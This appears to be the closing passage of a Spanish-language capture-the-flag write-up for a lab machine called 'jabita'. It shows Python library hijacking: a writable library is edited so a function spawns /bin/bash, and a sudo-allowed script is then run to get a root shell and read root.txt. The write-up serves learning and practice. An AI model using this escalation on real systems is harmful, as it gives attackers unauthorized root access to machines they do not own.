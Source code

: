 
### Python library hijacking

Hemos encontrado la ubicación de la librería y vemos que tenemos permisos para modificarla, así que vamos a realizar un "Python library hijacking".
Editaremos el fichero con nano y lo dejaremos con este código para que al ejecutar la función que vimos antes, root lance la shell.

~~~
import os
def first():
        os.system("/bin/bash")
~~~

Ahora solo falta lanzar ese comando como root y si todo va bien nos convertiremos en él:

~~~
jaba@jabita:~$ sudo /usr/bin/python3 /usr/bin/clean.py
root@jabita:/home/jaba# whoami
root
root@jabita:/home/jaba# cd /root
root@jabita:~# ls
root.txt  snap
root@jabita:~# cat root.txt
~~~

Pues con esto hemos finalizado la máquina. Dar las gracias al compañero Rijaba1 por su primera máquina, la cual me ha parecido interesante y muy llevadera.